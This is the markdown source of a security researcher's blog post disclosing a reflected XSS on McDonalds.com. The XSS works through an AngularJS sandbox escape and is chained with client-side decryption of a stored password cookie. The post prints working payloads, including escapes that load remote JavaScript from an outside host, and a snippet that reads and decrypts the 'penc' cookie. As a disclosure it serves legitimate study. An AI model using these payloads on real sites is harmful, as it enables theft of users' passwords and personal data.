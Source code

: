 ```yaml
---
layout: post
title: Stealing passwords from McDonald's users
subtitle: Reflected XSS through AngularJS sandbox bypass causes password exposure of McDonald users.
description: By abusing an insecure cryptographic storage vulnerability and a reflected server cross-site-scripting vulnerability it is possible to steal and decrypt the password from a McDonald's user.
keywords: xss, cross-site, scripting, mcdonalds, password, vulnerability, stealing, angularjs
author: Tijme Gommers
include_in_header: false
include_in_footer: false
show_in_post_list: true
robots: index, follow
---
```


By abusing an insecure [cryptographic storage vulnerability](https://owasp.org/Top10/A02_2021-Cryptographic_Failures/){:target="_blank"}{:rel="noopener noreferrer"} and a [reflected server cross-site-scripting vulnerability](https://owasp.org/Top10/A03_2021-Injection/){:target="_blank"}{:rel="noopener noreferrer"} it is possible to steal and decrypt the password from a McDonald's user. Besides that, other personal details like the user's name, address & contact details can be stolen too.

### Proof of Concept

#### Reflected XSS through AngularJS sandbox escape
McDonalds.com contains a search page which reflects the value of the search parameter (`q`) in the source of the page. So when we search on for example `***********-test-reflected-test-***********`, the response will look like this:

<div class="row mb-2">
    <div class="col-md-6">
        {% 
            include lightbox.html 
            image="/img/stealing-passwords-from-mcdonalds-users/search-value-test-preview.png"
            title="Text on website"
            album="step-1"
            width="842"
            height="284"
        %}
    </div>
    <div class="col-md-6">
        {% 
            include lightbox.html 
            image="/img/stealing-passwords-from-mcdonalds-users/search-value-test-reflected.png"
            title="Text in HTML"
            album="step-1"
            width="803"
            height="197"
        %}
    </div>
</div>

McDonald's uses AngularJS so we can try to print the unique scope ID using the search value. We can do this by changing the `q` parameter value to `{% raw %}{{$id}}{% endraw %}`. As we can see `{% raw %}{{$id}}{% endraw %}` gets converted to `9` the unique ID (monotonically increasing) of the AngularJS scope.

<div class="row mb-2">
    <div class="col-md-6">
        {% 
            include lightbox.html 
            image="/img/stealing-passwords-from-mcdonalds-users/search-value-angular-id-preview.png"
            title="Unique ID on website"
            album="step-2"
            width="841"
            height="288"
        %}
    </div>
    <div class="col-md-6">
        {% 
            include lightbox.html 
            image="/img/stealing-passwords-from-mcdonalds-users/search-value-angular-id-reflected.png"
            title="Unique ID in HTML"
            album="step-2"
            width="596"
            height="167"
        %}
    </div>
</div>

Using `{% raw %}{{alert(1)}}{% endraw %}` as value wouldn't work because all AngularJS code is executed in a sandbox. However, the AngularJS sandbox isn't really safe. In fact, it shouldn't be trusted at all. It even [got removed](https://docs.angularjs.org/guide/security#sandbox-removal){:target="_blank"}{:rel="noopener noreferrer"} in version 1.6 because it gave a false sense of security. PortSwigger created a nice blog post about [escaping the AngularJS sandbox](http://blog.portswigger.net/2016/01/xss-without-html-client-side-template.html){:target="_blank"}{:rel="noopener noreferrer"}.

We first need to find the AngularJS version of McDonalds.com. We can do this by executing `angular.version` in the console.

<div class="row mb-2">
    <div class="col-md-12">
        {% 
            include lightbox.html 
            image="/img/stealing-passwords-from-mcdonalds-users/angular-version.png"
            title="Angular version"
            album="step-3"
            width="612"
            height="40"
        %}
    </div>
</div>

The version is 1.5.3, so the sandbox escape we need is `{% raw %}{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(1)');}}{% endraw %}`. We can use this sandbox escape as search value, which results in an alert.

<div class="row mb-2">
    <div class="col-md-12">
        {% 
            include lightbox.html 
            image="/img/stealing-passwords-from-mcdonalds-users/alert-1-in-chrome.png"
            title="Alert using AngularJS sandbox escape"
            album="step-4"
            width="1185"
            height="218"
        %}
    </div>
</div>

We can even load external JavaScript files using the following sandbox escape, which results in the alert below.

`{% raw %}{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=$.getScript(`https://tij.me/snippets/external-alert.js`)');}}{% endraw %}`

The JavaScript can be loaded from another domain since McDonald's doesn't exclude it using the `Content-Security-Policy` header.

<div class="row mb-2">
    <div class="col-md-12">
        {% 
            include lightbox.html 
            image="/img/stealing-passwords-from-mcdonalds-users/alert-external-in-chrome.png"
            title="External domain alert using AngularJS sandbox escape"
            album="step-5"
            width="1182"
            height="222"
        %}
    </div>
</div>

### Proof of Concept

#### Stealing the user's password
Another thing I noticed on McDonalds.com was their sign in page which contained a very special checkbox. Normally you can check "Remember me" when signing in, but the McDonald's sign in page gives us the option to remember the password.

<div class="row mb-2">
    <div class="col-md-12">
        {% 
            include lightbox.html 
            image="/img/stealing-passwords-from-mcdonalds-users/mcdonalds-login-form.png"
            title="Remember my password checkbox"
            album="step-6"
            width="977"
            height="495"
        %}
    </div>
</div>

I searched through all the JavaScript for the keyword `password` and I found some interesting code that decrypts the password.

<div class="row mb-2">
    <div class="col-md-6">
        {% 
            include lightbox.html 
            image="/img/stealing-passwords-from-mcdonalds-users/source-search-password.png"
            title="Source code search for `password`"
            album="step-7"
            width="997"
            height="432"
        %}
    </div>
    <div class="col-md-6">
        {% 
            include lightbox.html 
            image="/img/stealing-passwords-from-mcdonalds-users/cookie-pass-decrypt-source.png"
            title="Source for decrypting the user's password"
            album="step-7"
            width="360"
            height="250"
        %}
    </div>
</div>

If there's one thing you shouldn't do, it's decrypting passwords client side (or even storing passwords using two-way encryption). I tried to run the code myself, and it worked!

<div class="row mb-2">
    <div class="col-md-12">
        {% 
            include lightbox.html 
            image="/img/stealing-passwords-from-mcdonalds-users/decrypt-get-cookie-penc.png"
            title="Decrypting my password using the console"
            album="step-8"
            width="217"
            height="56"
        %}
    </div>
</div>

The `penc` value is a cookie that is stored for a year. LOL!

<div class="row mb-2">
    <div class="col-md-12">
        {% 
            include lightbox.html 
            image="/img/stealing-passwords-from-mcdonalds-users/penc-cookie.png"
            title="The `penc` cookie that is stored for a year"
            album="step-9"
            width="950"
            height="29"
        %}
    </div>
</div>

McDonald's uses CryptoJS to encrypt and decrypt sensitive data. They use the same `key` and `iv` for every user, which means I only have to steal the `penc` cookie to decrypt someone's password.

<div class="row mb-2">
    <div class="col-md-12">
        {% 
            include lightbox.html 
            image="/img/stealing-passwords-from-mcdonalds-users/encrypt-decrypt-source.png"
            title="Encrypting and decrypting sensitive data using CryptoJS"
            album="step-10"
            width="851"
            height="198"
        %}
    </div>
</div>

I tried decrypting my password on the search page using a malicious search payload, but it didn't work. Since the AngularJS sandbox escape payload replaces the `charAt` method with the `join` method, the `getCookie` method failed. The `getCookie` method tries to trim whitespaces from cookie values by checking if `charAt(0)` is a whitespace. In the images below you can see `.charAt(0)` returns a string joined by `0` if executed on the search page.

<div class="row mb-2">
    <div class="col-md-6">
        {% 
            include lightbox.html 
            image="/img/stealing-passwords-from-mcdonalds-users/char-at-fail.png"
            title="The `charAt` method on the search page (fails)"
            album="step-11"
            width="423"
            height="71"
        %}
    </div>
    <div class="col-md-6">
        {% 
            include lightbox.html 
            image="/img/stealing-passwords-from-mcdonalds-users/char-at-success.png"
            title="The `charAt` method on the homepage (success)"
            album="step-11"
            width="297"
            height="71"
        %}
    </div>
</div>

I wrote some JavaScript that loads the homepage in an iframe and steals the cookie using that iframe. Since the payload is executed multiple times because of the sandbox escape, I keep track of the variable `xssIsExecuted`, so that the payload is only executed once.

{% highlight javascript %}
if (!window.xssIsExecuted) {
    window.xssIsExecuted = true;

    var iframe = $('<iframe src="https://www.mcdonalds.com/us/en-us.html"></iframe>');
    $('body').append(iframe);

    iframe.on('load', function() {
        var penc = iframe[0].contentWindow.getCookie('penc');
        alert(iframe[0].contentWindow.decrypt(penc));
    });
}
{% endhighlight %}

We can now use the following sandbox escape, which results in my password in an alert box!

`{% raw %}{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=$.getScript(`https://tij.me/snippets/mcdonalds-password-stealer.js`)');}}{% endraw %}`


[![My password!](/img/stealing-passwords-from-mcdonalds-users/alert-my-password.png)](/img/stealing-passwords-from-mcdonalds-users/alert-my-password.png){:target="_blank"}{:rel="noopener noreferrer"}{:data-lightbox="step-12"}{:data-title="My password!"}

That was all pretty easy. I tried to contact McDonald's multiple times to report the issue, but unfortunately they didn't respond, which is why I decided to disclose the vulnerability.

